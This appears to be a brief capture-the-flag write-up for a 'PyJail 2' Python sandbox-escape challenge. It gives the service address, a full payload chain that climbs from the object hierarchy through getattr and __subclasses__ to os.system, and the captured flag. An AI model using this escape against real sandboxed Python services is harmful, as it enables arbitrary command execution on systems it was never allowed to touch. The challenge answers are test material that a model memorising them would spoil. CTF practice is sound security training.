

# IncognitoCTF 3.0 - PyJail 2

- Type: jail 
- Level: meduim 
- Points : 100
- link : nc 142.93.209.130 14010`

Same substitution problem as before, this time the character I used is `.`

Final chain: `_._builtins_._['getattr'](_._builtins_._['getattr'](_._builtins_._['getattr'](_._builtins_._['getattr'](_._builtins_._['getattr'](_._builtins_._['getattr'](flag, '_._class_._'), '_._bases_._')[0], '_._subclasses_._')()[196](), '_module'), '_._builtins_._')['_._import_._']('os'), 'system')('cat jail2')`

Flag: `ictf{Y0u_D1D_1t_143233689965}`
